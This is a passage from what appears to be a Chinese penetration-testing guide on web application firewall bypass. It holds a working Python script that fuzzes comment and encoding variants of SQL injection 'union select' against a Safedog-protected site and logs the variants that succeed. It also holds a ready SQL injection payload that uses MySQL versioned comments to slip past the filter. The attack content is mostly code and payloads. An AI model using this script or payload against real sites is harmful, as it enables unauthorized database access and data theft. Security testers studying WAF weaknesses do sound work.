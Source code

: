 ## 04-WAF绕过实例

### 01-Fuzz测试

Fuzz测试，也叫做“模糊测试”，是一种挖掘软件安全漏洞、检测软件健壮性的黑盒测试，它通过向软件输⼊非法的字段，观测被测试软件是否异常而实现。

```python
#! -*- encoding:utf-8 -*-
# python3
import requests
 
fuzz_zs = ['/*','*/','/*!','*','=','`','!','@','%','.','-','+','|','%00']
fuzz_sz = ['',' ']
fuzz_ch = ["%0a","%0b","%0c","%0d","%0e","%0f","%0g","%0h","%0i","%0j"]
 
fuzz = fuzz_zs+fuzz_sz+fuzz_ch
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.221 Safari/537.36 SE 2.X MetaSr 1.0"}
url_start = "http://localhost:8980/fuzz/index.php?id=1"#需要测试的存在安全狗WAF的目标站点
 
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                    exp = "/*!union"+a+b+c+d+"select*/ 1,2,3"#fuzz位置，a和b是定义的字典
                    url = url_start + exp
                    res = requests.get(url = url , headers = headers)
                    print("Now URL:"+url)
                    if "MySQL" in res.text:#匹配MySQL关键字
                        print("Find Fuzz bypass:"+url)#在前端Fuzz成功的显示【Find Fuzz bypass】，失败则显示【Now URL】
                        with open("IIS_results.txt",'a',encoding='utf-8') as r:#Fuzz成功的URL，会在脚本当前目录下创建文件并写入进去。
                            r.write(url+"\n")
```

执⾏了union和select参数就触发拦截，构造`user/*!60010a*/()`进行测试

> Payload:`%27/*!60010a*/union%20/*!60010a*/select%201,user/*!60010a*/()%23`
> URL:`http://172.16.26.159/phptest1.php?id=1%27/*!60010a*/union%20/*!60010a*/select%201,user/*!60010a*/()%23`

![passwaf1](https://raw.githubusercontent.com/Scorpio-m7/Penetration-Zbook/main/img/passwaf1.png)

### 02-绕过云锁
